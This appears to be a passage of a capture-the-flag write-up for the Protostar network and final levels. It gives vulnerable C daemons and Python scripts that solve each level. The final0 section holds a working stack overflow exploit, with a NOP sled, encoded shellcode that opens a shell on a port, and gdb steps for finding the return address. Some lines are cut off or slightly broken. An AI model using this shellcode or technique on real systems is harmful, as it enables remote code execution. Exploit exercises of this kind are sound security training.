srandom(time(NULL));
run();
}
nc 127.0.0.1 2998.
import socket
import re
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2998))
data = s.recv(1024)
num = struct.unpack("I", data)[0]
s.send(str(num))
print s.recv(1024)
s.close()
The script unpacks the data reading it as an integer number, and then we just send it back as string.
#define NAME "net2"
#define UID 997
#define GID 997
#define PORT 2997
void run(){
unsigned int quad[4];
int i;
unsigned int result, wanted;
result = 0;
for(i = 0; i < 4; i++) {
quad[i] = random();
result += quad[i];
if(write(0, &(quad[i]), sizeof(result)) != sizeof(result)) {
errx(1, ":(\n");
}
}
if(read(0, &wanted, sizeof(result)) != sizeof(result)) {
errx(1, ":<\n");
}
if(result == wanted) {
printf("you added them correctly\n");
} else {
printf("sorry, try again. invalid\n");
}
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
/* Don't do this :> */
srandom(time(NULL));
run();
}
nc 127.0.0.1 2997.
import socket
import re
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2997))
tot = 0
for x in xrange(4):
data = s.recv(4)
tot += int(struct.unpack("I", data)[0])
tot = tot & 0xffffffff
s.send(struct.pack("I", tot))
print s.recv(1024)
s.close()
The script reads 4 times 4 bytes, corresponding to the length of usnigned int. We add the numbers to each other, and before sending the sum back we perform the '& 0xFFFFFFFF' to make clear of the possible overflows.
#define NAME "net3"
#define UID 996
#define GID 996
#define PORT 2996
/*
* Extract a null terminated string from the buffer
*/
int get_string(char **result, unsigned char *buffer, u_int16_t len){
unsigned char byte;
byte = *buffer;
if(byte > len) errx(1, "badly formed packet");
*result = malloc(byte);
strcpy(*result, buffer + 1);
return byte + 1;
}
/*
* Check to see if we can log into the host
*/
int login(unsigned char *buffer, u_int16_t len){
char *resource, *username, *password;
int deduct;
int success;
if(len < 3) errx(1, "invalid login packet length");
resource = username = password = NULL;
deduct = get_string(&resource, buffer, len);
deduct += get_string(&username, buffer+deduct, len-deduct);
deduct += get_string(&password, buffer+deduct, len-deduct);
success = 0;
success |= strcmp(resource, "net3");
success |= strcmp(username, "awesomesauce");
success |= strcmp(password, "password");
free(resource);
free(username);
free(password);
return ! success;
}
void send_string(int fd, unsigned char byte, char *string){
struct iovec v[3];
u_int16_t len;
int expected;
len = ntohs(1 + strlen(string));
v[0].iov_base = &len;
v[0].iov_len = sizeof(len);
v[1].iov_base = &byte;
v [1].iov_len = 1;
v[2].iov_base = string;
v[2].iov_len = strlen(string);
expected = sizeof(len) + 1 + strlen(string);
if(writev(fd, v, 3) != expected) errx(1, "failed to write correct amount of bytes");
}
void run(int fd){
u_int16_t len;
unsigned char *buffer;
int loggedin;
while(1) {
nread(fd, &len, sizeof(len));
len = ntohs(len);
buffer = malloc(len);
if(! buffer) errx(1, "malloc failure for %d bytes", len);
nread(fd, buffer, len);
switch(buffer[0]) {
case 23:
loggedin = login(buffer + 1, len - 1);
send_string(fd, 33, loggedin ? "successful" : "failed");
break;
default:
send_string(fd, 58, "what you talkin about willis?");
break;
}
}
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
/* Don't do this :> */
srandom(time(NULL));
run(fd);
}
nc 127.0.0.1 2996.
import socket
import re
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2996))
login_string = "\x17"
login_string += "\x05net3\x00"
login_string += "\x0dawesomesauce\x00"
login_string += "\x0apassword\x00"
login_length = len(login_string)
s.send(struct.pack(">H", login_length))
s.send(login_string)
print s.recv(1024)
s.close()
The script creates the login string: first of all the "secret" byte to access the login functionality, then the name of the service, then the username and at the end the password. The length of this string is sent as unsigned short (as defined in the C code), then the string itself is sent out. The terminating NULL is required by the strcpy method.
#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995
/*
* Read the username in from the network
*/
char *get_username(){
char buffer[512];
char *q;
int i;
memset(buffer, 0, sizeof(buffer));
gets(buffer);
/* Strip off trailing new line characters */
q = strchr(buffer, '\n');
if(q) *q = 0;
q = strchr(buffer, '\r');
if(q) *q = 0;
/* Convert to lower case */
for(i = 0; i < strlen(buffer); i++) {
buffer[i] = toupper(buffer[i]);
}
/* Duplicate the string and return it */
return strdup(buffer);
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
username = get_username();
printf("No such user %s\n", username);
}
nopsled: a NOP sled is a sequence of NOP (no-operation) instructions that are usually inserted as a landing zone for a jump that doesn't have a precise target address. A nopsled gives a larger landing space, easier to guess than a single address, and will make the execution flow down to the actual starting point without secondary effects.
import socket
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2995))
offset = 'a' * 512 + 'b' * 4 + c * 4 + 'd' * 4
s.send(offset)
su root and password godmode to check if we managed to cause a segmentation fault. If yes, the core dump file is saved in /tmp and we can look at it with gdb --core /tmp/core_xxx. In this case we will see with what $eip crashed, and can adjust the length of our offset payload. If no segfault happened, we have to try again with a longer payload.
import socket
import struct
s = socket.socket(AF_INET, SOCK_STREAM)
s.connect(("127.0.0.1", 2995))
nop = "\x90"*24
shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"
padding = "a"*(532-len(nop)-len(shellcode))
ret = "\xaa\xaa\xaa\xaa"
s.send(nop + shellcode + padding + ret)
i r. What we are interested in is the $esp register, that tells us where the stack ends. Now it's a matter of patience while looking at the stack content until we find our nopsled: we go through the memory with gdb > x/100x $esp-x, where we increase x until we find the bunc of '90' that correspond to the nop instructions.
0xbffffa50, substitute it as the return address in our last script and run it again.
nc 127.0.0.1 5074
#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994
char username[128];
char hostname[64];
void logit(char *pw){
char buf[512];
snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);
syslog(LOG_USER|LOG_DEBUG, buf);
}
void trim(char *str){
char *q;
q = strchr(str, '\r');
if(q) *q = 0;
q = strchr(str, '\n');
if(q) *q = 0;
}
void parser(){
char line[128];
printf("[final1] $ ");
while(fgets(line, sizeof(line)-1, stdin)) {
trim(line);
if(strncmp(line, "username ", 9) == 0) {
strcpy(username, line+9);
} else if(strncmp(line, "login ", 6) == 0) {
if(username[0] == 0) {
printf("invalid protocol\n");
} else {
logit(line + 6);
printf("login failed\n");
}
}
printf("[final1] $ ");
}
}
void getipport(){
int l;
struct sockaddr_in sin;
l = sizeof(struct sockaddr_in);
if(getpeername(0, &sin, &l) == -1) {
err(1, "you don't exist");
}
sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
getipport();
parser();
}
void syslog(int priority, const char *format, ...): generates a log message, where the priority argument is formed by the level values and the remaining arguments are a format.